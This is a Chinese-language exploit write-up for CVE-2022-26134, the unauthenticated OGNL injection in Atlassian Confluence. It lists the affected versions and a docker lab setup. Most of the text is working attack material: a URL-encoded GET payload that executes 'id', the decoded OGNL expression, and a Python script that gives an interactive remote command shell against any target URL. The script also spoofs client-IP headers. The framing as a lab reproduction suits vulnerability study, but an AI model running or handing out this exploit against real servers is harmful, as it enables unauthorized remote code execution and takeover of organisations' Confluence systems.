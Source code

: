 # CVE-2022-26134

> **Cretae by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Atlassian Confluence OGNL表达式注入命令执行漏洞



# 0x01 漏洞概述

Atlassian Confluence 是一款各企业广泛使用的 wiki 系统。在Atlassian Confluence Server and Data Center上存在OGNL 注入漏洞，远程攻击者在未经身份验证的情况下，可构造OGNL表达式进行注入，实现在Confluence Server或Data Center上执行任意代码。

# 0x02 影响范围

- 1.3.0 <= Confluence Server and Data Center < 7.4.17
- Confluence Server and Data Center 7.12.5
- 7.13.0 <= Confluence Server and Data Center < 7.13.7
- 7.14.0 <= Confluence Server and Data Center < 7.14.3
- 7.15.0 <= Confluence Server and Data Center < 7.15.2
- 7.16.0 <= Confluence Server and Data Center < 7.16.4
- 7.17.0 <= Confluence Server and Data Center < 7.17.4
- 7.18.0 <= Confluence Server and Data Center < 7.18.1

# 0x03 环境搭建

执行如下命令启动一个Confluence Server 7.13.6：

```
docker compose up -d
```

环境启动后，访问http://your-ip:8090即可进入安装向导，参考CVE-2019-3396这个环境中的安装方法，申请试用版许可证。在填写数据库信息的页面，PostgreSQL数据库地址为db，数据库名称confluence，用户名密码均为postgres。

![Untitled](image/Untitled.png)

# 0x04 漏洞复现

## 方式一：通过POC

```
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close

```

![Untitled](image/Untitled%201.png)

其中使用到的OGNL表达式如下：

```
${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}。
```

## 方式二：通过脚本

```
# CVE编号：cve-2022-26134
# By A-little-dragon

from datetime import datetime
import requests
from urllib.parse import quote

def GetTime():
    return datetime.strftime(datetime.now(), '%Y-%m-%d %H:%M:%S')

headers = {
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36",
    "Accept-Encoding": "gzip, deflate, br, zstd",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Pragma": "no-cache",
    "Priority": "u=0, i",
    "Sec-Ch-Ua": '"Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"',
    "Sec-Ch-Ua-Mobile": "?0",
    "Sec-Ch-Ua-Platform": '"Windows"',
    "Sec-Fetch-Dest": "document",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-Site": "none",
    "Sec-Fetch-User": "?1",
    "Upgrade-Insecure-Requests": "1",
    "Ali-Cdn-Real-Ip": "localhost",
    "Cache-Control": "no-cache",
    "Cdn-Real-Ip": "localhost",
    "Cdn-Src-Ip": "localhost",
    "Cf-Connecting-Ip": "localhost",
    "Client-Ip": "localhost",
    "Forwarded": "localhost",
    "Forwarded-For": "localhost",
    "Proxy-Client-Ip": "localhost",
    "True-Client-Ip": "localhost",
    "Wl-Proxy-Client-Ip": "localhost",
    "X-Cluster-Client-Ip": "localhost",
    "X-Forwarded": "localhost",
    "X-Forwarded-For": "localhost",
    "X-Originating-Ip": "localhost",
    "X-Real-Ip": "localhost",
    "X-Remote-Addr": "localhost",
    "X-Remote-Ip": "localhost"
}

def start():
    url = input("Set Target URL > ")
    print(f"[+] {GetTime()} Start executing the attack program!")
    while True:
        try:
            command = input("$ > ")
            res = requests.get(
                url=url + f"/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22{quote(command)}%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/",
                headers=headers, allow_redirects=False)
            if res.status_code == 302:
                print(f"[+] {GetTime()} 执行成功！")
                print(res.headers.get("X-Cmd-Response"))
            else:
                print(f"[-] {GetTime()} 执行失败！")
        except Exception as e:
            print(f"[-] {GetTime()} 执行失败,原因如下：", e)

if __name__ == '__main__':
    start()

```

![Untitled](image/Untitled%202.png)